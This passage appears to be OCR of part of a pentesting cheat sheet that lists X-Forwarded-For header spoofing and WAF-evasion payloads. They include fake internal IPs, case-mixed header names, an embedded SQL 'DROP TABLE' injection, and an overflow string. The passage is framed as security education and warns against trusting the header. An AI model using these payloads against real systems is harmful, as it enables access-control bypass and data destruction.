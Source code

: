     ```
    X-Forwarded-For: 3232235777
    ```
25. **Inserting a Fake Internal IP for Confusion**  
    ```
    X-Forwarded-For: 10.10.10.10, 192.168.1.1
    ```

---

### **Web Application Firewall (WAF) Evasion**
26. **Using Domain Instead of IP**  
    ```
    X-Forwarded-For: example.com
    ```
27. **Mixing Uppercase & Lowercase to Bypass Case-Sensitive Filters**  
    ```
    X-ForWARDED-FOr: 192.168.1.1
    ```
28. **Adding Unusual Characters for Parsing Issues**  
    ```
    X-Forwarded-For: 192.168.1.1; DROP TABLE users;
    ```
29. **Using a Large String to Cause Buffer Overflow**  
    ```
    X-Forwarded-For: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    ```
30. **Stacking Multiple X-Forwarded-For Headers for Confusion**  
    ```
    X-Forwarded-For: 192.168.1.1
    X-Forwarded-For: 8.8.8.8
    ```

---

These variations demonstrate both legitimate and malicious uses of `X-Forwarded-For`. In security-sensitive applications, relying solely on this header for authentication or rate-limiting is risky, as it can be manipulated easily.



For pentester, you can clearly see which output is better.

